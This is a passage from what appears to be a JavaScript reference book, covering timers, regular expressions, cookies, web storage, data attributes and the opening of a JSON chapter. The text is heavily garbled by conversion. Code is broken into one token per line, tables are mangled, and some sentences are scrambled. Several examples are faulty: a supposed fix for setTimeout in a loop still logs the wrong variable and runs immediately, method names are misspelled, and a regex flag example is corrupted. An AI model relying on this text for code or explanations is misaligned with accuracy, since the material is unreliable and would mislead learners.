\*/*
>
**var** int = setInterval(doSomething, 5000 ); */\* same thing, no
quotes, no parens \*/*
>
If you need to pass parameters to the doSomething function, you can
pass them as additional parameters beyond the first two to
setInterval.
>
**Without overlapping**
>
setInterval, as above, will run every 5 seconds (or whatever you set
it to) no matter what. Even if the function doSomething takes long
than 5 seconds to run. That can create issues. If you just want to
make sure there is that pause in between runnings of doSomething, you
can do this:

(

**function**

(

)

{

doSomething

(

)

;

setTimeout

(

arguments.

callee

,

5000

)

;

}

)

(

)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-4">Section 30.4: Removing intervals</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  window.setInterval

() returns an IntervalID, which can be used to stop that interval from
continuing to run. To

  window.setInterval       () in a variable and call    clearInterval

do this, store the return value of () with that variable as the only
argument:

**function**

waitFunc

(

)

{

console.

log

(

\"This will be logged every 5 seconds\"

)

;

}

**var**

interval

=

window.

setInterval

(

waitFunc

,

5000

)

;

window.

setTimeout

(

**function**

(

)

{

clearInterval

(

interval

)

;

}

,

32000

)

;

  This will be logged every                            5   seconds

This will log every 5 seconds, but will stop it after 32 seconds. So
it will log the message 6 times.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-5">Section 30.5: Removing timeouts</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  window.setTimout

() returns a TimeoutID, which can be used to stop that timeout from
running. To do this, store

  window.setTimeout        () in a variable and call     clearTimeout

the return value of () with that variable as the only argument:

**function**

waitFunc

(

)

{

console.

log

(

\"This will not be logged after 5 seconds\"

)

;

}

**function**

stopFunc

(

)

{

clearTimeout

(

timeout

)

;

}

**var**

timeout

=

window.

setTimeout

(

waitFunc

,

5000

)

;

window.

setTimeout

(

stopFunc

,

3000

)

;

This will not log the message because the timer is stopped after 3
seconds.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-6">Section 30.6: setTimeout, order of operations, clearTimeout</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**setTimeout**
>
Executes a function, after waiting a specified number of milliseconds.
>
used to delay the execution of a function.

  setTimeout   (   **function**   ,   milliseconds   ) or window.setTimeout   (   **function**   ,   milliseconds

**Syntax :** )
>
**Example :** This example outputs \"hello\" to the console after 1
second. The second parameter is in milliseconds, so 1000 = 1 sec, 250
= 0.25 sec, etc.

setTimeout

(

**function**

(

)

{

console.

log

(

\'hello\'

)

;

}

,

1000

)

;

**Problems with setTimeout** if you\'re using the setTimeout method in
a for loop **:**

**for**

(

i

=

0

;

i

\<

3

;

++

i

)

{

setTimeout

(

**function**

(

)

{

console.

log

(

i

)

;

}

,

500

)

;

}

  
  three
  

  

This will output the value 3 times, which is not correct.
>
Workaround of this problem :

**for**

(

i

=

0

;

i

\<

3

;

++

i

)

{

setTimeout

(

**function**

(

j

)

{

console.

log

(

i

)

;

}

(

i

)

,

1000

)

;

}

It will output the value 0,1,2. Here, we're passing the i into the
function as a parameter(j).
>
**Order of operations**
>
Additionally though, due to the fact that JavaScript is single
threaded and uses a global event loop, setTimeout can be used to add
an item to the end of the execution queue by calling setTimeout with
zero delay. For example:

setTimeout

(

**function**

(

)

{

console.

log

(

\'world\'

)

;

}

,

0

)

;

console.

log

(

\'hello\'

)

;

Will actually output:

hello

world

  
  setTimeout
  

  

Also, zero milliseconds here does not mean the function inside the
setTimeout will execute immediately. It will take slightly more than
that depending upon the items to be executed remaining in the
execution queue. This one is just pushed to the end of the queue.
**Cancelling a timeout clearTimeout() :** stops the execution of the
function specified in () **Syntax :** clearTimeout(timeoutVariable) or
window.clearTimeout(timeoutVariable)
>
**Example :**

**var**

timeout

=

setTimeout

(

**function**

(

)

{

console.

log

(

\'hello\'

)

;

}

,

1000

)

;

clearTimeout

(

timeout

)

;

*// The timeout will no longer be executed*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch31">Chapter 31: Regular expressions</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Flags Details** g **g**lobal. All matches (don\'t return on the
first match). m **m**ulti-line. Causes **\^** & **\$** to match the
begin/end of each line (not only begin/end of string). i
**i**nsensitive. Case insensitive match (ignores case of \[a-zA-Z\]).

u **u**nicode : Pattern strings are treated as **UTF-16**. Also causes
escape sequences to match Unicode characters. stick**y**: matches only
from the index indicated by the lastIndex property of this regular
expression in the

y target string (and does not attempt to match from any later
indexes).

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-1">Section 31.1: Creating a RegExp Object</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Standard Creation**

It is recommended to use this form only when creating regex from
dynamic variables.

Use when the expression may change or the expression is user
generated.

**var**

re

=

**new**

RegExp

(

\".\*\"

)

;

With flags:

**var**

re

=

**new**

RegExp

(

\".\*\"

,

\"gmi\"

)

;

With a backslash: (this must be escaped because the regex is specified
with a string)

**var**

re

=

**new**

RegExp

(

\"

**\\\\**

w\*\"

)

;

**Static initialization**
>
Use when you know the regular expression will not change, and you know
what the expression is before runtime.

**var**

re

=

*/.\*/*

;

With flags:

**var**

re

=

*/.\*/gmi*

;

With a backslash: (this should not be escaped because the regex is
specified in a literal)

**var**

re

=

*/\\w\*/*

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-2">Section 31.2: RegExp Flags</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  -
  test                                     /          gi
  - - 

  -

  
  **new** RegExp                 (   \'test\'           ,   \'gi\'
  -  -  

  

There are several flags you can specify to alter the RegEx behaviour.
Flags may be appended to the end of a regex literal, such as
specifying gi in /, or they may be specified as the second argument to
the RegExp constructor, as in ).

  
  zA
  

  

g - Global. Finds all matches instead of stopping after the first. i -
Ignore case. /\[a-z\]/i is equivalent to /\[a\Z\]/.
>
m - Multiline. \^ and \$ match the beginning and end of each line
respectively treating \\n and \\r as delimiters instead of simply the
beginning and end of the entire string.

Version ≥ 6

u - Unicode. If this flag is not supported you must match specific
Unicode characters with \\uXXXX where XXXX is the character\'s value
in hexadecimal. y - Finds all consecutive/adjacent matches.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-3">Section 31.3: Check if string contains pattern using .test()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**var**

re

=

*/\[a-z\]+/*

;

**if**

(

re.

test

(

\"foo\"

)

)

{

console.

log

(

\"Match exists.\"

)

;

}

The test method performs a search to see if a regular expression
matches a string. The regular expression \[a-z\]+ will search for one
or more lowercase letters. Since the pattern matches the string,
"match exists" will be logged to the console.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-4">Section 31.4: Matching With .exec()</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  **exec**

**Match Using .()**

  RegExp.**prototype**                     .   exec       (   string

) returns an array of captures, or **null** if there was no match.

**var**

re

=

*/(\[0-9\]+)\[a-z\]+/*

;

**var**

match

=

re.

exec

(

\"foo123bar\"

)

;

  
  match.index
  

  

is 3, the (zero-based) location of the match.

  
  match
  

  

\[0\] is the full match string.

  
  match   \[1\] is the text corresponding to the first captured       match
          group.                                                      
  - - -

  

\[n\] would be the value of the *n*th captured group.

**Loop Through Matches Using**

**.**

**exec**

**(**

**)**

**var**

re

=

*/a/g*

;

**var**

result

;

while

(

(

result

=

re.

exec

(

\'barbatbaz\'

)

)

!==

**null**

)

{

console.

log

(

\"found \'\"

\+

result

\[

0

\]

\+

\"\', next exec starts at index \'\"

\+

re.

lastIndex

\+

\"\'\"

)

;

}

Expected output

found \'a\', next exec starts at index \'2\' found \'a\', next exec
starts at index \'5\' found \'a\', next exec starts at index \'8\'

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-5">Section 31.5: Using RegExp With Strings</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

The String object has the following methods that accept regular
expressions as arguments.

\"string\"

.

match

(

\...

\"string\"

.

replace

(

\...

\"string\"

.

split

(

\...

\"string\"

.

search

(

\...

**Match with RegExp**

console.

log

(

\"string\"

.

match

(

*/\[i-n\]+/*

)

)

;

console.

log

(

\"string\"

.

match

(

*/(r)\[i-n\]+/*

)

)

;

Expected output

Array \[\"in\"\]

Array \[\"rin\", \"r\"\]

**Replace with RegExp**

console.

log

(

\"string\"

.

replace

(

*/\[i-n\]+/*

,

\"foo\"

)

)

;

Expected output

strfoog

**Split with RegExp**

console.

log

(

\"stringstring\"

.

split

(

*/\[i-n\]+/*

)

)

;

Expected output

Array \[\"str\", \"gstr\", \"g\"\]

**Search with RegExp**

  
  search
  

  

.() returns the index at which a match is found or -1.

console.

log

(

\"string\"

.

search

(

*/\[i-n\]+/*

)

)

;

console.

log

(

\"string\"

.

search

(

*/\[o-q\]+/*

)

)

;

Expected output
>
3
>
-1

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-6">Section 31.6: RegExp Groups</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

JavaScript supports several types of group in its Regular Expressions,
*capture groups*, *non-capture groups* and *lookaheads*. Currently,
there is no *look-behind* support.
>
**Capture**

  
  pattern
  

  

Sometimes the desired match relies on its context. This means a simple
*RegExp* will over-find the piece of the *String* that is of interest,
so the solution is to write a capture group (). The captured data can
then be referenced as\...

  
  str.match
  

  

  
  str.match         discards captures, use                  re.exec
    -

  

String replacement \"\$n\" where n is the *n th* capture group
(starting from 1) The *n th* argument in a callback function
>
If the *RegExp* is not flagged g, the *n+1 th* item in a returned
*Array*
>
If the *RegExp* is flagged g, instead
>
Say there is a *String* where all + signs need to be replaced with a
space, but only if they follow a letter character. This means a simple
match would include that letter character and it would also be
removed. Capturing it is the solution as it means the matched letter
can be preserved.

**let**

str

=

\"aa+b+cc+1+2\"

,

re

=

*/(\[a-z\])\\+/g*

;

*// String replacement*

str.

replace

(

re

,

\'\$1 \'

)

;

*// \"aa b cc 1+2\"*

*// Function replacement*

str.

replace

(

re

,

(

m

,

\$1

)

=\>

\$1

\+

\' \'

)

;

*// \"aa b cc 1+2\"*

**Non-Capture**

  
  ?:pattern
  

  

Using the form (), these work in a similar way to capture groups,
except they do not store the contents of the group after the match.
>
They can be particularly useful if other data is being captured which
you don\'t want to move the indices of, but need to do some advanced
pattern matching such as an OR

**let**

str

=

\"aa+b+cc+1+2\"

,

re

=

*/(?:\\b\|c)(\[a-z\])\\+/g*

;

str.

replace

(

re

,

\'\$1 \'

)

;

*// \"aa+b c 1+2\"*

**Look-Ahead**

  
  ?=pattern
  

  

If the desired match relies on something which follows it, rather than
matching that and capturing it, it is possible to use a look-ahead to
test for it but not include it in the match. A positive look-ahead has
the form (), a negative look-ahead (where the expression match only
happens if the look-ahead pattern did not match) has the

  
  ?!pattern
  

  

form ()

**let**

str

=

\"aa+b+cc+1+2\"

,

re

=

*/\\+(?=\[a-z\])/g*

;

str.

replace

(

re

,

\' \'

)

;

*// \"aa b cc+1+2\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-7">Section 31.7: Replacing string match with a callback function</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  String#replace

can have a function as its second argument so you can provide a
replacement based on some
>
logic.

\"Some string Some\"

.

replace

(

*/Some/g*

,

(

match

,

startIndex

,

wholeString

)

=\>

{

**if**

(

startIndex

==

0

)

{

**return**

\'Start\'

;

}

**else**

{

**return**

\'End\'

;

}

}

)

;

*// will return Start string End*

One line template library

**let**

data

=

{

name

:

\'John\'

,

surname

:

\'Doe\'

}

\"My name is {surname}, {name} {surname}\"

.

replace

(

*/(?:{(.+?)})/g*

,

x

=\>

data

\[

x\.

slice

(

1

,-

1

)

\]

)

;

*// \"My name is Doe, John Doe\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch31-8">Section 31.8: Using Regex.exec() with parentheses regex to extract matches of a string</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Sometimes you doesn\'t want to simply replace or remove the string.
Sometimes you want to extract and process matches. Here an example of
how you manipulate matches.
>
What is a match ? When a compatible substring is found for the entire
regex in the string, the exec command produce a match. A match is an
array compose by firstly the whole substring that matched and all the
parenthesis in the match.
>
Imagine a html string :

**\<**

**html**

**\>**

**\<**

**head**

**\>**

**\<**

**/head**

**\>**

**\<**

**body**

**\>**

**\<**

**h**

**1**

**\>**

Example

**\<**

**/h**

**1**

**\>**

**\<**

**p**

**\>**

Look at this great link :

**\<**

**a**

href

=

\"http://goalkicker.com\"

**\>**

goalkicker

**\<**

**/a**

**\>**

http://anotherlinkoutsideatag

**\<**

**/p**

**\>**

Copyright

**\<**

**a**

href

=

\"https://stackoverflow.com\"

**\>**

Stackoverflow

**\<**

**/a**

**\>**

**\<**

**/body**

**\>**

You want to extract and get all the links inside an a tag. At first,
here the regex you write :

**var**

re

=

*/\<a\[\^\>\]\*href=\"https?:\\/\\/.\*\"\[\^\>\]\*\>\[\^\<\]\*\<\\/a\>/g*

;

But now, imagine you want the href and the anchor of each link. And
you want it together. You can simply add a new regex in for each match
**OR** you can use parentheses :

**var**

re

=

*/\<a\[\^\>\]\*href=\"(https?:\\/\\/.\*)\"\[\^\>\]\*\>(\[\^\<\]\*)\<\\/a\>/g*

;

**var**

str

=

\'\<html\>

**\\n**

\<head\>\</head\>

**\\n**

\<body\>

**\\n**

\<h1\>Example\</h1\>

**\\n**

\<p\>Look at this

great link: \<a href=\"http://goalkicker.com\"\>goalkicker\</a\>
http://anotherlinkoutsideatag\</p\>

**\\n**

**\\n**

Copyright \<a href=\"https://stackoverflow.com\"\>Stackoverflow\</a\>

**\\n**

\</body\>

**\\\'**

;

**\\n**

\'

;

**var**

m

;

**var**

links

=

\[

\]

;

while

(

(

m

=

re.

exec

(

str

)

)

!==

**null**

)

{

**if**

(

m\.

index

===

re.

lastIndex

)

{

re.

lastIndex

++

;

}

console.

log

(

m

\[

0

\]

)

;

*// The all substring*

console.

log

(

m

\[

1

\]

)

;

*// The href subpart*

console.

log

(

m

\[

2

\]

)

;

*// The anchor subpart*

links.

push

(

{

match

:

m

\[

0

\]

,

*// the entire match*

href

:

m

\[

1

\]

,

*// the first parenthesis =\(https?:\\/\\/.\*)*

anchor

:

m

\[

2

\]

,

*// the second one =\(\[\^\<\]\*)*

}

)

;

}

At the end of the loop, you have an array of link with anchor and href
and you can use it to write markdown for example :

links.

forEach

(

**function**

(

link

)

{

console.

log

(

\'\[%s\](%s)\'

,

link.

anchor

,

link.

href

)

;

}

)

;

To go further :
>
Nested parenthesis

# Chapter 32: Cookies

## Section 32.1: Test if cookies are enabled

  
  navigator.cookieEnabled
  

  

If you want to make sure cookies are enabled before using them, you
can use :

**if**

(

navigator.

cookieEnabled

===

**false**

)

{

alert

(

\"Error: cookies not enabled!\"

)

;

}

  
  navigator.cookieEnabled
  

  

Note that on older browsers may not exist and be undefined. In those
cases you won\'t detect that cookies are not enabled.

## Section 32.2: Adding and Setting Cookies

The following variables set up the below example:
>
**var** COOKIE_NAME = \"Example Cookie\"; */\* The cookie\'s name.
\*/* **var** COOKIE_VALUE = \"Hello, world!\"; */\* The cookie\'s
value. \*/* **var** COOKIE_PATH = \"/foo/bar\"; */\* The cookie\'s
path. \*/* **var** COOKIE_EXPIRES; */\* The cookie\'s expiration date
(config\'d below). \*/*
>
*/\* Set the cookie expiration to 1 minute in future (60000ms = 1
minute). \*/* COOKIE_EXPIRES = (**new** Date(Date.now() +
60000)).toUTCString();
>
document.cookie += COOKIE_NAME + \"=\" + COOKIE_VALUE
>
\+ \"; expires=\" + COOKIE_EXPIRES
>
\+ \"; path=\" + COOKIE_PATH;

## Section 32.3: Reading cookies

**var**

name

=

name

\+

\"=\"

,

cookie_array

=

document.

cookie

.

split

(

\';\'

)

,

cookie_value

;

**for**

(

**var**

i

=

0

;

i

\<

cookie_array.

length

;

i

++

)

{

**var**

cookie

=

cookie_array

\[

i

\]

;

while

(

cookie.

charAt

(

0

)

==

\' \'

)

cookie

=

cookie.

substring

(

1

,

cookie.

length

)

;

**if**

(

cookie.

indexOf

(

name

)

==

0

)

cookie_value

=

cookie.

substring

(

name.

length

,

cookie.

length

)

;

}

This will set cookie_value to the value of the cookie, if it exists.
If the cookie is not set, it will set cookie_value to

**null**

## Section 32.4: Removing cookies

**var**

expiry

=

**new**

Date

(

)

;

expiry.

setTime

(

expiry.

getTime

(

)

\-

3600

)

;

document.

cookie

=

name

\+

\"=; expires=\"

\+

expiry.

toGMTString

(

)

\+

\"; path=/\"

This will remove the cookie with a given name.

# Chapter 33: Web Storage

**Parameter Description** *name* The key/name of the item *value* The
value of the item

## Section 33.1: Using localStorage

The localStorage object provides persistent (but not permanent - see
limits below) key-value storage of strings. Any changes are
immediately visible in all other windows/frames from the same origin.
The stored values persistent indefinitely unless the user clears saved
data or configures an expiration limit. localStorage uses a map-like
interface for getting and setting values.

localStorage.

setItem

(

\'name\'

,

\"John Smith\"

)

;

console.

log

(

localStorage.

getItem

(

\'name\'

)

)

;

*// \"John Smith\"*

localStorage.

removeItem

(

\'name\'

)

;

console.

log

(

localStorage.

getItem

(

\'name\'

)

)

;

*// null*

If you want to store simple structured data, you can use JSON to
serialize it to and from strings for storage.
>
**var** players = \[{name: \"Tyler\", score: 22}, {name: \"Ryan\",
score: 41}\]; localStorage.setItem(\'players\',
JSON.stringify(players));
>
console.log(JSON.parse(localStorage.getItem(\'players\')));

*// \[ Object { name: \"Tyler\", score: 22 }, Object { name: \"Ryan\",
score: 41 } \]* **localStorage limits in browsers**

Mobile browsers:

**Browser Google Chrome Android Browser Firefox iOS Safari**

++-++-++
| Version           | 40             | 4.3     | 34     | |
|                     |                  |           |          |   |
|                     |                  |           |          | 6 |
|                     |                  |           |          | - |
|                     |                  |           |          | 8 |
+=====================+==================+===========+==========+===+
| Space available     | 10MB             | 2MB       | 10MB   | 5 |
|                     |                  |           |          | M |
|                     |                  |           |          | B |
++-++-++

Desktop browsers:

**Browser Google Chrome Opera Firefox Safari Internet Explorer**

Version 40 27 34 6-8 9-11

Space available 10MB 10MB 10MB 5MB 10MB

## Section 33.2: Simpler way of handling Storage

localStorage, sessionStorage are JavaScript **Objects** and you can
treat them as such.

  
  getItem                     (), .           setItem
    

  

Instead of using Storage Methods like .(), etc... here\'s a simpler
alternative:

*// Set*

localStorage.

greet

=

\"Hi!\"

;

*// Same as: window.localStorage.setItem(\"greet\", \"Hi!\");*

*// Get*

localStorage.

greet

;

*// Same as: window.localStorage.getItem(\"greet\");*

*// Remove item*

**delete**

localStorage.

greet

;

*// Same as: window.localStorage.removeItem(\"greet\");*

*// Clear storage*

localStorage.

clear

(

)

;

**Example:**

*// Store values (Strings, Numbers)*

localStorage.

hello

=

\"Hello\"

;

localStorage.

year

=

2017

;

*// Store complex data (Objects, Arrays)*

**var**

user

=

{

name

:

\"John\"

,

surname

:

\"Doe\"

,

books

:

\[

\"A\"

,

\"B\"

\]

}

;

localStorage.

user

=

JSON.

stringify

(

user

)

;

*// Important: Numbers are stored as String*

console.

log

(

**typeof**

localStorage.

year

)

;

*// String*

*// Retrieve values*

**var**

someYear

=

localStorage.

year

;

*// \"2017\"*

*// Retrieve complex data*

**var**

userData

=

JSON.

parse

(

localStorage.

user

)

;

**var**

userName

=

userData.

name

;

*// \"John\"*

*// Remove specific data*

**delete**

localStorage.

year

;

*// Clear (delete) all stored data*

localStorage.

clear

(

)

;

## Section 33.3: Storage events

Whenever a value in set in localStorage, a storage event will be
dispatched on all other windows from the same origin. This can be used
to synchronize state between different pages without reloading or
communicating with a server. For example, we can reflect the value of
an input element as paragraph text in another window: First Window

**var**

input

=

document.

createElement

(

\'input\'

)

;

document.

body

.

appendChild

(

input

)

;

input.

value

=

localStorage.

getItem

(

\'user-value\'

)

;

input.

oninput

=

**function**

(

event

)

{

localStorage.

setItem

(

\'user-value\'

,

input.

value

)

;

}

;

Second Window

**var**

output

=

document.

createElement

(

\'p\'

)

;

document.

body

.

appendChild

(

output

)

;

output.

textContent

=

localStorage.

getItem

(

\'user-value\'

)

;

window.

addEventListener

(

\'storage\'

,

**function**

(

event

)

{

**if**

(

event.

key

===

\'user-value\'

)

{

output.

textContent

=

event.

newValue

;

}

}

)

;

**Notes**
>
Event is not fired or catchable under Chrome, Edge and Safari if
domain was modified through script.
>
First window

*// page url: http://sub.a.com/1.html*

document.

domain

=

\'a.com\'

;

**var**

input

=

document.

createElement

(

\'input\'

)

;

document.

body

.

appendChild

(

input

)

;

input.

value

=

localStorage.

getItem

(

\'user-value\'

)

;

input.

oninput

=

**function**

(

event

)

{

localStorage.

setItem

(

\'user-value\'

,

input.

value

)

;

}

;

Second Window

*// page url: http://sub.a.com/2.html*

document.

domain

=

\'a.com\'

;

**var**

output

=

document.

createElement

(

\'p\'

)

;

document.

body

.

appendChild

(

output

)

;

*// Listener will never called under Chrome(53), Edge and Safari(10.0).*

window.

addEventListener

(

\'storage\'

,

**function**

(

event

)

{

**if**

(

event.

key

===

\'user-value\'

)

{

output.

textContent

=

event.

newValue

;

}

}

)

;

## Section 33.4: sessionStorage

The sessionStorage object implements the same Storage interface as
localStorage. However, instead of being shared with all pages from the
same origin, sessionStorage data is stored separately for every
window/tab. Stored data persists between pages *in that window/tab*
for as long as it\'s open, but is visible nowhere else.

**var**

audio

=

document.

querySelector

(

\'audio\'

)

;

*// Maintain the volume if the user clicks a link then navigates back
here.*

audio.

volume

=

Number

(

sessionStorage.

getItem

(

\'volume\'

)

\|\|

1.0

)

;

audio.

onvolumechange

=

**function**

(

event

)

{

sessionStorage.

setItem

(

\'volume\'

,

audio.

volume

)

;

}

;

Save data to sessionStorage

sessionStorage.

setItem

(

\'key\'

,

\'value\'

)

;

Get saved data from sessionStorage

**var**

data

=

sessionStorage.

getItem

(

\'key\'

)

;

Remove saved data from sessionStorage

sessionStorage.

removeItem

(

\'key\'

)

## Section 33.5: localStorage length

  
  localStorage.length
  

  

property returns an integer number indicating the number of elements in
the localStorage

Example:
>
Set Items

localStorage.

setItem

(

\'StackOverflow\'

,

\'Documentation\'

)

;

localStorage.

setItem

(

\'font\'

,

\'Helvetica\'

)

;

localStorage.

setItem

(

\'image\'

,

\'sprite.svg\'

)

;

Get length

localStorage.

length

;

*// 3*

## Section 33.6: Error conditions

Most browsers, when configured to block cookies, will also block
localStorage. Attempts to use it will result in an exception. Do not
forget to manage these cases.

**var**

video

=

document.

querySelector

(

\'video\'

)

**try**

{

video.

volume

=

localStorage.

getItem

(

\'volume\'

)

}

**catch**

(

error

)

{

alert

(

\'If you

**\\\'**

d like your volume saved, turn on cookies\'

)

}

video.

play

(

)

If error were not handled, program would stop functioning properly.

## Section 33.7: Clearing storage

To clear the storage, simply run

localStorage.

clear

(

)

;

## Section 33.8: Remove Storage Item

To remove a specific item from the browser Storage (the opposite of
setItem) use removeItem

localStorage.

removeItem

(

\"greet\"

)

;

**Example:**

localStorage.

setItem

(

\"greet\"

,

\"hi\"

)

;

localStorage.

removeItem

(

\"greet\"

)

;

console.

log

(

localStorage.

getItem

(

\"greet\"

)

)

;

*// null*

(Same applies for sessionStorage)

# Chapter 34: Data attributes

## Section 34.1: Accessing data attributes

**Using the dataset property**

  
  data-\*
  

  

The new dataset property allows access (for both reading and writing)
to all data attributes on any element.

**\<**

**p**

**\>**

Countries:

**\<**

**/p**

**\>**

**\<**

**ul**

**\>**

**\<**

**li**

id

=

\"C1\"

onclick

=

\"showDetails(this)\"

data-id

=

\"US\"

data-dial-code

=

\"1\"

**\>**

USA

**\<**

**/li**

**\>**

**\<**

**li**

id

=

\"C2\"

onclick

=

\"showDetails(this)\"

data-id

=

\"CA\"

data-dial-code

=

\"1\"

**\>**

Canada

**\<**

**/li**

**\>**

**\<**

**li**

id

=

\"C3\"

onclick

=

\"showDetails(this)\"

data-id

=

\"FF\"

data-dial-code

=

\"3\"

**\>**

France

**\<**

**/li**

**\>**

**\<**

**/ul**

**\>**

**\<**

**button**

type

=

\"button\"

onclick

=

\"correctDetails()\"

**\>**

Correct Country Details

**\<**

**/button**

**\>**

**\<**

**script**

**\>**

function showDetails(item) {

var msg = item.innerHTML

\+ \"\\r\\nISO ID: \" + item.dataset.id

\+ \"\\r\\nDial Code: \" + item.dataset.dialCode;

alert(msg);

}

function correctDetails(item) {

var item = document.getEmementById(\"C3\");

item.dataset.id = \"FR\";

item.dataset.dialCode = \"33\";

}

**\<**

**/script**

**\>**

Note: The dataset property is only supported in modern browsers and
it\'s slightly slower than the getAttribute and setAttribute methods
which are supported by all browsers.
>
**Using the getAttribute & setAttribute methods**
>
If you want to support the older browsers before HTML5, you can use
the getAttribute and setAttribute methods which are used to access any
attribute including the data attributes. The two functions in the
example above can be written this way:

**\<**

**script**

**\>**

function showDetails(item) {

var msg = item.innerHTML

\+ \"\\r\\nISO ID: \" + item.getAttribute(\"data-id\")

\+ \"\\r\\nDial Code: \" + item.getAttribute(\"data-dial-code\");

alert(msg);

}

function correctDetails(item) {

var item = document.getEmementById(\"C3\");

item.setAttribute(\"id\", \"FR\");

item.setAttribute(\"data-dial-code\", \"33\");

}

**\<**

**/script**

**\>**

  
  input                         (     string
   - 

  

++-+-+
| **Parameter**           |                                    | **  |
|                           |                                    | Det |
|                           |                                    | ail |
|                           |                                    | s** |
+===========================+====================================+=====+
| **JSON.parse**            | **Parse a JSON string**            |     |
++-+-+

# Chapter 35: JSON

  -
  reviver                         (    **function**
    

  -

) JSON string to be parsed.

  
  value                         (     string
   - 

  

  -
  **JSON.stringify**   **Serialize a serializable value**
   -

  -

) Prescribes a transformation for the input JSON string.

  
  replacer(**function**                 
   
  Number\[\])                           

  

  
  String
  

  

) Value to be serialized according to the JSON specification.

  
  space                         (     String
   - 

  

or \[\] or
>
Selectively includes certain properties of the value object.

If a number is provided, then space number of whitespaces will be

or Number) inserted of readability. If a string is provided, the
string (first 10 characters) will be used as whitespaces.
>
JSON (JavaScript Object Notation) is a lightweight data-interchange
format. It is easy for humans to read and write and easy for machines
to parse and generate. It is important to realize that, in JavaScript,
JSON is a string and not an object.
>
A basic overview can be found on the [json.org](http://json.org/)
website which also contains links to implementations of the standard
in many different programming languages.

## Section 35.1: JSON versus JavaScript literals

  
  eval
  

  

JSON stands for \"JavaScript Object Notation\", but it\'s not
JavaScript. Think of it as just a *data serialization format* that
*happens* to be directly usable as a JavaScript literal. However, it
is not advisable to directly run (i.e. through ()) JSON that is
